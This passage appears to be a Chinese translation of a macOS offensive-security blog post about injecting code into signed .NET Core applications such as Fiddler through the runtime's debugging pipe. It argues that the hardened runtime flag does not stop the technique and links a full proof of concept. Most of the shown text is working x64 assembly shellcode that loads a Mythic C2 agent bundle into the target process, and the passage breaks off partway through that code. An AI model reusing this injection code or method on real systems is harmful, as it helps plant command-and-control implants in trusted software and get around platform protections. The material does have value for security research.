 ```
already_run: db 0
```

在[这里](https://gist.github.com/xpn/b427998c8b3924ab1d63c89d273734b6)可以找到用于注入PowerShell的完整POC代码。



## Hardened Runtime功能是否会阻止代码运行？

现在我们有能力将其注入到.NET Core进程中，一个明显的问题是，`hardened runtime`功能是否会阻止它的运行。从我所看到的情况来看，是否设置了`hardened runtime`标志对我们的调试管道没有影响，这意味着我们的注入行为对于带有`hardened runtime`标志签名的应用程序仍然奏效。

让我们以另一个流行的应用程序为例，它已经签名、公证并带有`hardened runtime`签名标志，Fiddler：

[![](https://p1.ssl.qhimg.com/t017270576b173abc5e.png)](https://p1.ssl.qhimg.com/t017270576b173abc5e.png)

在这里我们发现其带有`hardened runtime`签名标志，但我们可以看到，启动应用程序仍然导致调试管道被成功创建：

[![](https://p1.ssl.qhimg.com/t0143414557156887e3.png)](https://p1.ssl.qhimg.com/t0143414557156887e3.png)

让我们通过尝试向Fiddler中注入一些shellcode来确保一切都能正常工作。这一次，我们将做一些更有用的事情，在`Cody Thomas‘ Mythic`框架中注入`Apfell`。

有几种方法可以做到这一点，但为了保持过程简单，我们将使用`wNSCreateObjectFileImageFromMemory`方法从磁盘加载一个bundle：

```
[BITS 64] 

NSLINKMODULE_OPTION_PRIVATE equ 0x2

section .text 
_start: 
    cmp byte [rel already_run], 1 
    je skip  

; Update our flag so we don't run every time 
    mov byte [rel already_run], 1  

; Store registers for later restore 
    push rax 
    push rbx 
    push rcx 
    push rdx 
    push rbp 
    push rsi 
    push rdi 
    push r8 
    push r9 
    push r10 
    push r11 
    push r12 
    push r13 
    push r14 
    push r15 

    sub rsp, 16 

; call malloc 
    mov rdi, [rel BundleLen] 
    mov rax, [rel malloc] 
    call rax 
    mov qword [rsp], rax  

; open the bundle 
    lea rdi, [rel BundlePath] 
    mov rsi, 0 
```